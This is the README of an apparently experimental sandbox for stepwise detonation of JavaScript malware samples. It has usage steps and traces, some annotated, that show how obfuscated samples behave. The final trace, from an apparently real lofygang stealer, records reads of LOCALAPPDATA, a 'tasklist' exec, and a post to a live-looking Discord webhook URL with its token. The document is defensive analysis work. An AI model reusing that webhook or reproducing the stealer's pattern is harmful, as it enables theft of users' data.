 # lavalab

Not a malware research lab.

> **Warning** this is an experiment. It doesn't utilize the full protection of SES. It's not claiming to be applicable or useful for actual malware analysis.

> **Warning** no ESM `import` support

## Usage

Requires docker present and working.  
Runs a no-network container in which malware can be gradually detonated.

- put your sample in ./samples/
- run `lab.sh`
- inside the container, run your sample: `lavalab samples/a.js`
- when in doubt, kill the container

lavalab instruments running code with proxies starting at `global` and prompts synchronously to ask what to return.
```
Return values from proxy:
 p: proxy-prompt
 n: noop function
 l: console.log
 f: function=>proxy-prompt
 s: random string
 U: undefined
```

## Examples

> This section contains old examples from an earlier version of lavalab

These are outputs from running the samples present in the repo.  
obfuscated-a.js was created using highest level of https://obfuscator.io/

```
## Running "samples/a.js" ##
Access real global.console? [a=always/y/N]y
this is a demo sample
Access real global.URL? [a=always/y/N]y
Access real global.require? [a=always/y/N]
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Get global.require=>{}.readFileSync as [p/n/l/f/0]n
Run real EVAL? [y/N]
returning console.log instead of eval
example_payload
```

Note this is not the first pass. On a first pass one should not allow real `Function`
```
## Running "samples/obfuscated-a.js" ##
Access real global.parseInt? [a=always/y/N]a
Access real global.undefined? [a=always/y/N]a
Access real global.RegExp? [a=always/y/N]a
Access real global.Boolean? [a=always/y/N]a
Access real global.String? [a=always/y/N]a
Access real global.decodeURIComponent? [a=always/y/N]a
Access real global.Function? [a=always/y/N]y
Access real global.window? [a=always/y/N]
Get global.window as [p/n/l/f/0]p
Get global.window.console as [p/n/l/f/0]p
Get global.window.console.log as [p/n/l/f/0]l
Get global.window.console.warn as [p/n/l/f/0]l
Get global.window.console.info as [p/n/l/f/0]l
Get global.window.console.error as [p/n/l/f/0]l
Get global.window.console.exception as [p/n/l/f/0]l
Get global.window.console.table as [p/n/l/f/0]l
Get global.window.console.trace as [p/n/l/f/0]l
Access real global.console? [a=always/y/N]y
this is a demo sample
Access real global.URL? [a=always/y/N]y
Access real global.Function? [a=always/y/N]
Get global.Function as [p/n/l/f/0]l
return (function() {}.constructor("return this")( ));
Access real global.window? [a=always/y/N]
Get global.window as [p/n/l/f/0]p
Get global.window.setInterval as [p/n/l/f/0]l
{} 4000
Access real global.require? [a=always/y/N]
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Get global.require=>{}.readFileSync as [p/n/l/f/0]n
Run real EVAL? [y/N]
returning console.log instead of eval
example_payload
```

Annotated with explanations
```
## Running "samples/obfuscated-a.js" ##
Access real global.parseInt? [a=always/y/N]a
Access real global.undefined? [a=always/y/N]a
Access real global.RegExp? [a=always/y/N]a
Access real global.Boolean? [a=always/y/N]a
Access real global.String? [a=always/y/N]a
Access real global.decodeURIComponent? [a=always/y/N]a
Access real global.Function? [a=always/y/N]y
Access real global.window? [a=always/y/N]
^^^ tools used to undo obfuscation
Get global.window as [p/n/l/f/0]p
Get global.window.console as [p/n/l/f/0]p
Get global.window.console.log as [p/n/l/f/0]l
Get global.window.console.warn as [p/n/l/f/0]l
Get global.window.console.info as [p/n/l/f/0]l
Get global.window.console.error as [p/n/l/f/0]l
Get global.window.console.exception as [p/n/l/f/0]l
Get global.window.console.table as [p/n/l/f/0]l
Get global.window.console.trace as [p/n/l/f/0]l
^^^ looks like polyfilling
Access real global.console? [a=always/y/N]y
^^^ actual console usage from the obfuscated script
this is a demo sample
^^^ output of that concole.log
Access real global.URL? [a=always/y/N]y
^^^ actual URL reference for the obfuscated script
Access real global.Function? [a=always/y/N]
Get global.Function as [p/n/l/f/0]l
return (function() {}.constructor("return this")( ));
^^^ attempt at getting the real global
Access real global.window? [a=always/y/N]
^^^ fallback to window
Get global.window as [p/n/l/f/0]p
Get global.window.setInterval as [p/n/l/f/0]l
^^^ getting setInterval, we replace it with a log
{} 4000
^^^ looks like a deobfuscation prevention
vvv all of the obfuscated script now running
Access real global.require? [a=always/y/N]
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Get global.require=>{}.readFileSync as [p/n/l/f/0]n
Run real EVAL? [y/N]
returning console.log instead of eval
example_payload
```

Actual lofygang payload
```
## Running "lofy1.js" ##
Run real EVAL? [y/N]y
Access real global.RegExp? [a=always/y/N]a
Run real EVAL? [y/N]y
Run real EVAL? [y/N]y
Run real EVAL? [y/N]y
Access real global.parseInt? [a=always/y/N]a
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'https' } )
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'glob' } )
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'child_process' } )
Get global.require=>{}.exec as [p/n/l/f/0]f
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'axios' } )
Access real global.process? [a=always/y/N]N
Get global.process as [p/n/l/f/0]p
Get global.process.env as [p/n/l/f/0]p
Get global.process.env.LOCALAPPDATA as [p/n/l/f/0]0
Get global.require=>{}.readdirSync as [p/n/l/f/0]f
=>global.require=>{}.readdirSync( [Arguments] { '0': undefined } )
Get global.require=>{}.readdirSync=>{}.forEach as [p/n/l/f/0]f
=>global.require=>{}.readdirSync=>{}.forEach( [Arguments] { '0': {} } )
=>global.require=>{}.exec( [Arguments] { '0': 'tasklist', '1': {} } )
Get global.require=>{}.post as [p/n/l/f/0]f
=>global.require=>{}.post( [Arguments] {
  '0': 'https://discord.com/api/webhooks/1007006820629483640/PcVef3zPDULoGoHQBQu1WK_pLYOMtOdk6ynz0wqSFJf6yv0Ro5iZpMLiZ3Pe4aVKxk-j',
  '1': { embeds: [ [Object] ] }
} )

```